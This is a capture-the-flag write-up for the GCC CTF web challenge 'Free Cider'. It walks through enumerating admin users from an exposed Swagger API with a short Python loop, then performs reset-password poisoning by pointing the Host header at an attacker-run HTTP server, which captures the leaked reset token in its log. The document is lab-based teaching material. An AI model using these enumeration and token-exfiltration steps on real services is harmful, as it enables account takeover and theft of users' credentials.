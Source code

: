 ```yaml
---
title: GCCCTF - Writeup
date: 2024-02-03 10:11:53 +/-0800
categories: [writeup, CTF]
writeup: :title
permalink: /gccctf
tags: [htb, writeup, gccctf,web ,Talace, 4nh4ck1ne]     # TAG names should always be lowercase
---
```


# WEB : **Free Cider**

In the app’s source code we can see a message for admins : 

![note](assets/gccctf/note.png)

So it would seem that there is a swagger that referres the endpoints of an api and it is still up, before let’s analyse the web app so we can login with user password and we can reset password using only user. 

![login](assets/gccctf/login.png)

![reset](assets/gccctf/resetpass.png)

Using burpsuite I intercept the http request and we can  find an api endpoint. 

![endpoint](assets/gccctf/endpoint.png)

To acces the api swager go to `/api/v1/swagger.json`. 

![swagger](assets/gccctf/swagger.png)

The most interresting endpoint is the GET, to find users using an ID. 

![userid](assets/gccctf/userid.png)

The admin parameter is set to false, maybe we need to find all admin account for that I quickly created a python script to fuzz the admin account : 

```python
import requests 

for i in range(50): 
        url=f"""http://worker05.gcc-ctf.com:12283/api/v1/user/{i}"""
        r = requests.get(url)
        print(r.text)
```

Run the script using bash command like this : 

```python
> python fuzz.py > admin.txt && cat admin.txt | grep 'admin":true'
{"admin":true,"id":9,"username":"monique_petersen12"}
{"admin":true,"id":24,"username":"zachary_rodriguez35"}
{"admin":true,"id":31,"username":"vicki_savage190"}
```

after that I try to find mass assignement vulnerability, but I didn’t found suspicious http requests like PUT on any api endpoints. 

I also try to put other parametres on api endpoint  request but that didn’t work. 

I think we need to abuse the endpoint `/api/v1/reset-password` to reset admin password. 

And yeah I saw right, we can do  a **reset password poisoning,** for that launch a request to the endpoint `/api/v1/reset-password`

On the http request change the Host header to a server you have under control like this : 

![request-reset](assets/gccctf/request-reset.png)

Ps* don’t forget to start an http server, in my case I used a VPS !

```python
python3 -m http.server 80
```

Launch the request and see the leaked token send by the target server to reset the admin’s account password

```python
172.234.63.85 - - [02/Mar/2024 17:43:52] code 404, message File not found
172.234.63.85 - - [02/Mar/2024 17:43:52] "GET /reset?token=12cb3489-0ff1-4680-9a17-b5ffc16d73e5 HTTP/1.1" 404 -
```

Go to your browser and use the token to gain access on the reset page. 

![token](assets/gccctf/reset-pass.png)

Use this password and the admin’s account affiliated to log in the app and get the Flag GG ! 😼

Thanks to Mika to this API challs ! we learn a lot.

